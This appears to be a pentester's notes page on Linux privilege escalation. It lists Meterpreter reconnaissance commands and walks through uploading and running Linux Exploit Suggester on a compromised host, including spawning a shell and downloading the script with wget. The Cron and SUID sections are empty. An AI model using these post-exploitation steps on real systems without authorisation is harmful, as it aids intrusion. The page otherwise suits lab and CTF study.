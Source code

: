 # Linux

## Metasploit post modules

Scanning privli escalation vulnera

<pre><code><strong>meterpreter> run post/multi/recon/local_exploit_suggester
</strong></code></pre>

| Command            | Description                               |
| ------------------ | ----------------------------------------- |
| `getprivs`         | see what privileges we have               |
| <kbd>sysinfo</kbd> | information about the system              |
| `getuid`           | Zero uid on linux is always the Root user |

## &#x20;LES

LES tool is designed to assist in detecting security deficiencies for a given Linux kernel/Linux-based machine. It provides following functionality:

### **How to use**

{% stepper %}
{% step %}
### Opening temp directory

```bash
cd /tmp
```
{% endstep %}

{% step %}
### Uploading LES

```bash
meterpreter > upload <stored location/script.sh>  
```
{% endstep %}

{% step %}
### Opening shell&#x20;

```
meterpreter > shell
```
{% endstep %}

{% step %}
### Better shell

```
/bin/bash -i
```
{% endstep %}

{% step %}
### Give executable permissions

```bash
chmod +x <file>
```
{% endstep %}

{% step %}
### Execute

```bash
./file.sh
```
{% endstep %}

{% step %}
### After  results select vulnerability

Open website vulnerability and follow guide how to use it and may need to upload it to the target:Imporant always when uploading file we need to give execute perms and run it with ./file
{% endstep %}
{% endstepper %}

{% embed url="https://github.com/The-Z-Labs/linux-exploit-suggester" %}

### &#x20;Quick download

```
wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -O les.sh
```

## Cron jobs

## SUID

